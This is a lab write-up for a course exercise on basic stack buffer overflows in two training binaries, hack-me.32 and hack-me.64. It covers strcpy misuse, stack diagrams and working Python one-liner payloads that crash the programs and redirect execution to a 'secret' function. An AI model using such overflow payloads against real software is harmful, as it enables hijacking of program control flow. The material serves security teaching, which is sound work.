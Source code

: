 #   Basic Exploitation (Aufgabe 2)

##  1. Bringen Sie beide Programme mit einer langen Eingabe zum Absturz.

`./hack-me.32 $(python -c 'print "A" * 0x110')`

`./hack-me.64 $(python -c 'print "A" * 0x120')`

##  2. Erklären Sie, wie es zum Absturz der Programme kommt. Welche Anweisung ist fehlerhaft und was passiert mit dem Return address ? Zeichnen Sie den Stack vor und nach dieser Anweisung als ASCII-Art.

By analyzing the behavior of both executables with `gdb`, it can be concluded that the string passed as argument to the program is passed by reference to the function `normal`, which allocates a buffer in the stack and copies the string to it with `strcpy`.

Since no bound checking is performed, we can exploit the program with a stack overflow simply by passing a string larger than the size of the buffer it is copied to. The detailed approaches for each architecture is described below:

### IA32

Given the disassembled code of the executable and that its architecture consists of 32-bit (4 bytes) words, the state of the stack can be expressed, at the moment `strcpy` is called, as follows:

<pre>
              | ........... |
              |  Saved EIP  | < Return address
   0x0(%ebp): |  Saved EBP  | < EBP (Base pointer)
  -0x4(%ebp): | ?? ?? ?? ?? |
              | ........... |
              | ........... |
-0x104(%ebp): | ?? ?? ?? ?? |
-0x108(%ebp): | ?? ?? ?? ?? | < dest
              | ........... |
              | ........... |
-0x124(%ebp): | ?? ?? ?? ?? | < ESP (Stack pointer)
              |_____________|
</pre>

Where `dest` is the pointer passed as parameter to the `strcpy`, which points to the memory where the `src` string must be copied to.

By passing an argument that consists of the character `A` (`0x41` in ASCII) repeated `0x110` times, the `strcpy` call writes:

* The `0x108` bytes allocated for the buffer;
* The `0x4` bytes that held the previous stack frame's base pointer;
* The `0x4` bytes that held the instruction pointer related to the previous stack frame (return address).

<pre>
              | ........... |
              | 41 41 41 41 | < Return address
   0x0(%ebp): | 41 41 41 41 | < EBP (Base pointer)
  -0x4(%ebp): | 41 41 41 41 |
              | ........... |
              | ........... |
-0x104(%ebp): | 41 41 41 41 |
-0x108(%ebp): | 41 41 41 41 | < dest
              | ........... |
              | ........... |
-0x124(%ebp): | ?? ?? ?? ?? | < ESP (Stack pointer)
              |_____________|
</pre>

Since the base pointer and the instruction pointer were overwritten and now point to invalid addresses, the program crashes with a `SEGMENTATION FAULT`.

### AMD64

Given the disassembled code of the executable and that its architecture consists of 64-bit (8 bytes) words, the state of the stack can be expressed, at the moment `strcpy` is called, as follows:

<pre>
              | ....................... |
              |        Saved RIP        | < Return address
   0x0(%rbp): |        Saved RBP        | < RBP (Base pointer)
  -0x8(%rbp): | ?? ?? ?? ?? ?? ?? ?? ?? |
              | ....................... |
              | ....................... |
-0x118(%rbp): | ?? ?? ?? ?? ?? ?? ?? ?? |
-0x110(%rbp): | ?? ?? ?? ?? ?? ?? ?? ?? | < dest
              | ....................... |
              | ....................... |
-0x130(%rbp): | ?? ?? ?? ?? ?? ?? ?? ?? | < RSP (Stack pointer)
              |_________________________|
</pre>

Where `dest` is the pointer passed as parameter to the `strcpy`, which points to the memory where the `src` string must be copied to.

By passing an argument that consists of the character `A` (`0x41` in ASCII) repeated `0x120` times, the `strcpy` call writes:

* The `0x110` bytes allocated for the buffer;
* The `0x8` bytes that held the previous stack frame's base pointer;
* The `0x8` bytes that held the instruction pointer related to the previous stack frame (return address).

<pre>
              | ....................... |
              | 41 41 41 41 41 41 41 41 | < Return address
   0x0(%rbp): | 41 41 41 41 41 41 41 41 | < RBP (Base pointer)
  -0x8(%rbp): | 41 41 41 41 41 41 41 41 |
              | ....................... |
              | ....................... |
-0x118(%rbp): | 41 41 41 41 41 41 41 41 |
-0x110(%rbp): | 41 41 41 41 41 41 41 41 | < dest
              | ....................... |
              | ....................... |
-0x130(%rbp): | ?? ?? ?? ?? ?? ?? ?? ?? | < RSP (Stack pointer)
              |_________________________|
</pre>

Since the base pointer and the instruction pointer were overwritten and now point to invalid addresses, the program crashes with a `SEGMENTATION FAULT`.

##  3. Manipulieren Sie mit Ihrer Eingabe den Programmfluss von hack-me.32 so, dass die Funktion secret ausgeführt wird:

Given that the address of the function `secret` is `0x08048480` and the addresses are stored as little-endian, the simple python script from exercise 1 can be slightly altered to overwrite the return address and execute the secret function:

`./hack-me.32 $(python -c 'print "\x80\x84\x04\x08" * (0x110 / 4)')`

Notice that the same `0x110` bytes are written. Since the size of the string to be repeated is multiplied by 4 (`A` -> `\x80\x84\x04\x08`), it is repeated `0x110 / 4` times to obtain the same length. The last occurence of it overwrites the return address, then when the function `normal`'s stack frame is deallocated, the injected address is copied to the instruction pointer, then `secret` is executed.

##  4. Injizieren Sie einen ähnlichen Angriffsvektor in das Programm hack-me.64 um dort ebenfalls secret zur Ausführung zu bringen.

Given that the address of the function `secret` is `0x00000000004005e0` and the addresses are stored as little-endian, the simple python script from exercise 1 can be slightly altered to overwrite the return address and execute the secret function:

`./hack-me.64 $(python -c 'print "A" * (0x120 - 0x8) + "\xe0\x05\x40\x00\x00\x00\x00\x00"')`

This time, the approach of overflowing the stack with a string consisting of the address repeated multiple times does not work, because it contains null bytes. Therefore, `strcpy` would return after copying the 4th byte and no buffer overflow would ever occur. This can be avoided by using the old approach of writing `A` repeated multiple times, except for the last word, which would overwrite the return address (`0x120 - 0x8`). This particular word is replace by the address of `secret`, and that is how it ends up being executed.